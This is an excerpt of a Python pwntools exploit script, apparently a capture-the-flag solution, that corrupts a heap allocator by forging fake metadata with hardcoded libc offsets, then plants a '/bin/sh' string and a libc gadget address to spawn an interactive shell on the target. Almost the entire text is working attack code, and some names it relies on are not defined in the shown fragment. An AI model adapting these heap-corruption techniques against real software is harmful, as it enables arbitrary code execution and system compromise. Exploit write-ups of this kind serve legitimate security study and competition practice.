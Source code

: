 ```

fake_mem=p64(libc-0x1000+0x10)+p64(libc-0x1000+0x10)+p64(libc-0x7ffff7f47000+0x7FFFF7FFDF80-8)+p64(0x0000000100000000)+p64(0x362)+p64(0)


delete(0x20,b"\x01\n")

delete(0x20,b"13\n")
add(0x20,b"13\n",0x800,b"3"*(0x2000-0x1ac0)+b"aaaa\n")
add(0x20,b"14\n",0x800,b"3"*(0x2000-0x1ac0-0x10)+fake_marena+fake_mem+fake_group+b"\x00"*0x120+p64(0)+p64(0x0002c)+b"\n")
#gdb.attach(p)
add(0x20,b"a2\n",0x100,b"44444444\n")

delete(0x20,b"14\n")
fake_mem=p64(libc-0x1000+0x10)+p64(libc-0x1000+0x10)+p64(libc-0x7ffff7f47000+0x7ffff7ffb110)+p64(0x0000000100000000)+p64(0x362)+p64(0)

add(0x20,b"14\n",0x800,b"3"*(0x2000-0x1ac0-0x10-0x10)+fake_marena+fake_mem+fake_group+b"\x00"*0x120+p64(0)+p64(0x0002c)+b"\n")

#gdb.attach(p)
payload  = b"/bin/sh\x00"+p64(0)*6+p64(1)+p64(0) +p64(libc-0x7ffff7f47000+0x7ffff7f97a90) 

add(0x20,b"a2\n",0x100,b"4"*0x50+payload+b"\n")
cmd1(4)

p.interactive()
```
